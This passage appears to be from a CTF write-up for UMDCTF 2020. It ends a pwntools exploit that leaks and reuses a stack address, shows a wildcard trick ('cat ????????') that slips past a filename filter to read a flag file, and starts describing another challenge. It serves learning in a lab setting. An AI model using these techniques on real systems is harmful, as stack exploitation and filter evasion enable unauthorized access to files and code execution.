 ```python
ru('Is this an... executable stack? ')
stack = eval('0x'+rc(12))
info_addr('stack',stack)
payload += p64(stack)
# debug('b *0x400628')
sl(payload)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/UMDCTF2020/pwn/baby) 



## Question (150pt)
### Description

> To read or not to read the flag... That is the question!
>
> `nc 192.241.138.174 9999` 
>
> Author: `lumpus`

### Analysis

We can't `cat flag.txt` directly (maybe `flag` was filtered.)

```bash
The flag.txt is here. Try to read it!
> cat flag.txt
Nope!
```

### Solution

Use  **wildcard** character to bypass check:

```bash
> cat ????????
UMDCTF-{s0me_questions_h4ve_answ3rs}
```

> question mark (?) represents any single character



## Cowspeak as a Service (250pt)

### Description

> lumpus gave up installing cowspeak so he made it a remote service instead! Too bad it keeps overwriting old  messages... Can you become chief cow and read the first message? 
>
> `nc 192.241.138.174 9998` 
>
> Author: `WittsEnd2`, `lumpus`
